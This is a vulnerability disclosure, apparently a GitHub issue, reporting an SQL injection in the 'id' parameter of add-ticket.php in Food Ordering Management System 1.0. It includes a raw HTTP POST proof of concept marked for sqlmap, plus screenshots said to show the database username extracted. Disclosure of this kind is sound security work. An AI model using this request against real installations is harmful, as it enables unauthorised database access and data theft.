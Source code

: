 ##Food Ordering Management System has a front-end SQL injection vulnerability

## Affected version: 
Food Ordering Management System - 1.0

## Software:
https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

## Vulnerability File:
/foms/routers/add-ticket.php

## Description:
Food Ordering Management  1.0 is vulnerable to an unrestricted SQL injection attack in /foms/routers/add-ticket.php with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /foms/routers/add-ticket.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: http://localhost
Connection: close
Referer: http://localhost/foms/register.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

type=2dsadsad&id=2dsadsa*&subject=22312&description=21242421312312312
```

Get database username through sqlmap 

![CleanShot 2024-09-04 at 16 05 07@2x](https://github.com/user-attachments/assets/d2b42765-9301-4603-a091-afef303bcf71)
![CleanShot 2024-09-04 at 16 05 41@2x](https://github.com/user-attachments/assets/1a460942-d900-4af8-b7a4-958c67a95daf)


